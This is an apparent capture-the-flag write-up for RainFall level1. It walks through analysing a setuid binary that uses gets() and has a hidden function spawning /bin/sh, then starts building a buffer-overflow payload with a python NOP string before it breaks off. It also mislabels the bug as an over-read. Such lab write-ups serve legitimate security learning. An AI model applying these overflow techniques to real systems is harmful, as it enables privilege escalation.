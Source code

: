 level1
======

*	We spawn with a [level1](source/level1) executable
	```console
	level1@RainFall:~$ ls -l
	total 732
	level1@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
	level1@RainFall:~$ ./level1
	█
	level1@RainFall:~$ ./level1 test
	█
	```
*	So we get an endless loop here, let's do as usual
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level1@192.168.29.4:~/level1 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh
	```
*	When we take a look at the main it looks like I was wrong, the code use the function `gets()` which led me to think that the program is reading the input (My mistake here, I should've at least tried to add something)
*	We also have another function called `run()`, this one uses `fwrite()`.
*	Looking deeper into gdb, we can see that it takes $eax=`("Good... Wait what?\n")` and then it calls `system()` to execute `/bin/sh`
*	So, now we are dealing with a [Buffer Overflow Attack](https://www.imperva.com/learn/application-security/buffer-overflow/)
*	Here we can see the buffer is sized `80` bytes
	```assembly
	sub    $0x50,%esp
	```
	This time the buffer isn't quite big but still I wont write char one by one so we will use python like this : `$(python -c "print('x') * y")`
*	Since this program is more of a buffer *over-READ* issue, we need to put our exploit in a file instead of doing it on the terminal directly
	```console
	level1@RainFall:~$ python -c 'print "\x90" * 80' > /tmp/exploit
	level1@RainFall:~$ gdb ./level1
	```